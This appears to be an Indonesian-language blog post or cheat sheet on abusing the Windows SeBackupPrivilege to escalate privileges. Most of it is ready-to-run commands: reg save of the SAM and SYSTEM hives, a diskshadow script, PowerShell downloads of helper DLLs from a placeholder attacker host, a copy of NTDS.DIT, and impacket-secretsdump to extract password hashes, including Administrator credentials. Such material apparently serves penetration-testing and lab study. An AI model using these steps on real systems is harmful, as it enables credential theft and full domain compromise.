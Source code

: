 ```yaml
---
title: "[Windows PrivEsc] SeBackupPrivilege - Dump SAM, SYSTEM, and NTDS.DIT"
author: "novran"
date: 2024-11-20 00:00:00 +0700
categories: [Windows Privilege Escalation]
tags: [Windows Privilege Escalation]
---
```


Privilege `SeBackupPrivilege` di Windows dapat dimanfaatkan untuk eskalasi hak akses (Privilege Escalation) karena dengan ini pengguna memiliki kekuatan untuk melakukan operasi backup, termasuk membaca file atau direktori apa pun yang ada di sistem. Dengan ini kita dapat melakukan backup pada file `SAM`, `SYSTEM`, dan `NTDS.DIT` yang pada dasarnya file-file tersebut menyimpan kredensial yang tersimpan di dalam Operating System (termasuk kredensial milik Administrator sekali pun).

## Dump

### 1. Backup SAM

```
reg save HKLM\SAM C:\Windows\temp\SAM.bak
```

### 2. Backup SYSTEM

```
reg save HKLM\SYSTEM C:\Windows\temp\SYSTEM.bak
```

### 3. Backup NTDS.DIT

Untuk melakukan backup `NTDS.DIT` itu sedikit rumit dibandingkan saat backup `SAM` dan `SYSTEM`. Namun, di sini saya sudah merangkumnya agar mudah dieksekusi.

1. Download [SeBackupPrivilegeCmdLets.dll](https://github.com/k4sth4/SeBackupPrivilege/raw/refs/heads/main/SeBackupPrivilegeCmdLets.dll).
2. Download [SeBackupPrivilegeUtils.dll](https://github.com/k4sth4/SeBackupPrivilege/raw/refs/heads/main/SeBackupPrivilegeUtils.dll).
3. Buat file `vss.dsh`:
```
set context persistent nowriters
set metadata c:\\programdata\\test.cab
set verbose on
add volume c: alias test
create
expose %test% z:
```

Eksekusi:
```powershell
iwr -uri http://<ATTACKER_HOST>/SeBackupPrivilegeCmdLets.dll -outfile C:\Windows\temp\SeBackupPrivilegeCmdLets.dll
iwr -uri http://<ATTACKER_HOST>/SeBackupPrivilegeUtils.dll -outfile C:\Windows\temp\SeBackupPrivilegeUtils.dll
iwr -uri http://<ATTACKER_HOST>/vss.dsh -outfile C:\Windows\temp\vss.dsh
cd "C:\Windows\temp"
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
diskshadow /s C:\\Windows\\temp\\vss.dsh
Copy-FileSeBackupPrivilege z:\\Windows\\ntds\\ntds.dit C:\\Windows\\temp\\NTDS.DIT.bak
```

## Read Backup Files

### 1. Using Impacket-Secretsdump

Kalian bisa menjalankan command ini di mesin kalian sendiri (dengan catatan file-file yang di-backup sudah dipindahkan ke mesin kalian).

```bash
impacket-secretsdump -sam SAM.bak -system SYSTEM.bak -ntds NTDS.DIT.bak LOCAL
```
